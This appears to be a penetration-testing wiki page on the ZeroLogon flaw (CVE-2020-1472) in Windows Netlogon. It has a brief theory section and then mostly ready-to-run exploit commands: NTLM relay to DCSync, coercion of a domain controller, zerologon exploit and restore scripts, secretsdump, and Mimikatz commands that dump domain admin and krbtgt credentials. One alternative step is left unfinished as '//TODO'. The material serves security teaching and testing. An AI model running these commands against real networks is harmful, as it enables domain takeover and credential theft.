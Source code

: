 ## Theory
Netlogon is a service verifying logon requests, registering, authenticating, and locating domain controllers. MS-NRPC, the Netlogon Remote Protocol RPC interface is an authentication mechanism part of that service. MS-NRPC is used primarily to maintain the relationship between a machine and its domain, and relationships among domain controllers (DCs) and domains.

The CVE-2020-1472 findings demonstrated that MS-NRPC used a custom and insecure cryptographic protocol (i.e. it reuses a known, static, zero-value Initialization Vector (IV) in an AES-CFB8 mode) when establishing a Netlogon Secure Channel connection to a Domain Controller allowing for an Elevation of Privilege vulnerability
## Exploit
###  Authentication relay technique
That technique relies on a relayed authentication to directly operate a DCSync, hence having no impact on the continuity of services.

In order to operate the attack, the Impacket's script ntlmrelayx (Python) can be used.
```bash
ntlmrelayx -t dcsync://$domain_controller_2 -smb2support
```
Once the relay servers are up and running and waiting for incoming trafic, attackers need to coerce a Domain Controller's authentication (or from another account with enough privileges). One way of doing this is to rely on the PrinterBug.
```bash
dementor.py -d $domain -u $user -p $password $attacker_ip $domain_controller_1
```

### Password change
!!! warning
    This technique can break the domain's replication services hence leading to massive disruption, running the following "password change" technique is not advised.

This exploit scenario changes the NT hash of the domain controller computer account in Active Directory, but not in the local SAM database, hence creating some issues in Active Directory domains. In order to prevent disruption as much as possible, attackers can try to exploit the CVE, find the NT hash of the Domain Controller account before it was changed, and set it back in Active Directory

=== "UNIX-like"
    ```bash
    # Scan for the vulnerability
    zerologon-scan 'DC_name' 'DC_IP_address'

    # Exploit the vulnerability: set the NT hash to \x00*8
    zerologon-exploit 'DC_name' 'DC_IP_address'

    # Obtain the Domain Admin's NT hash
    secretsdump -no-pass 'Domain'/'DC_computer_account$'@'Domain_controller'

    # Obtain the machine account hex encoded password with the domain admin credentials
    secretsdump -hashes :'NThash' 'Domain'/'Domain_admin'@'Domain_controller'

    # Restore the machine account password
    zerologon-restore 'Domain'/'DC_account'@'Domain_controller' -target-ip 'DC_IP_address' -hexpass 'DC_hexpass'
    ```
=== "Windows"
    The attack can also be conducted from Windows systems with Mimikatz (C) using `lsadump::zerologon` to scan and exploit it, then obtain the krbtgt with `lsadump::dcsync` and reset the DC account with `lsadump::postzerologon` or use `lsadump::changentlm`.
    ```bash
    # Scan for the vulnerability
    lsadump::zerologon /target:'Domain_controller' /account:'DC_account$'

    # Exploit the vulnerability: set the NT hash to \x00*8
    lsadump::zerologon /exploit /target:'Domain_controller' /account:'DC_account$'

    # Obtain the krbtgt by DCSync
    lsadump::dcsync /domain:'Domain' /dc:'Domain_controller' /user:'Administrator' /authuser:'DC_account$' /authdomain:'Domain' /authpassword:'' /authntlm

    # Reset the DC account's password in AD and in its SAM base
    lsadump::postzerologon /target:'Domain_Controller' /account:'DC_account$'

    # (alternative to postezerologon) Find the previous NT hash
    //TODO

    # (alternative to postezerologon) Change the NT hash of the domain controller machine account in the AD back to its original value
    lsadump::changentlm /server:'Domain_controller' /user:'DC_account$' /oldntlm:'31d6cfe0d16ae931b73c59d7e0c089c0' /newntlm:'previous_NThash'
    ```